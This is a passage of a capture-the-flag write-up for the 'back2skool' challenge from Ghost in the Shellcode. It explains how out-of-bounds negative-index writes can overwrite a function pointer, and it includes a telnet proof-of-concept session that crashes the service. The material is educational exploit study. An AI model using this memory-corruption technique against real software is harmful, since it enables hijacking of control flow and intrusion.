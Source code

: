 Because our buffer is in `.data` section and we can use negative indices for
read and write, we have a **good** control over the memory __below__ our
buffer. Moreover, you can see in the
[IDA](https://www.hex-rays.com/products/ida/index.shtml) screenshot above,
that there's a `math` variable. The program is capable of switching from one
operation (addition) to another one (multiplication) it does so by changing a
pointer to a function. The pointer is in the `.bss` section.

<img style="float:center" src='/images/ida-indirect-jump.png' alt="Indirect jump via math_ptr"/>

I know at this point, one might argue that the authors of the program used
this pointer to facilitate the problem solving - it's true I wouldn't argue
against this - it's just a game.

So **let's state our idea**: we will override a pointer to a function which is
called later; the function will be called whenever the `math` function is
called.

## First [PoC](http://en.wikipedia.org/wiki/Proof_of_concept)

	$ telnet localhost 31337
	[...]
	math
	You haven't set a mode yet!
	func1
	Setting mode to ADDITION
	write
	Input position to write to:
	-2147483634
	Input numeric value to write:
	286331153
	Value at position -2147483634: 286331153
	math
	Connection closed by foreign host.
	$


[original binary]: res/back2skool-3fbcd46db37c50ad52675294f566790c777b9d1f "Vulnerable binary"
[Ghost in the Shellcode]: http://ghostintheshellcode.com/ "Ghost in the Shellcode CTF"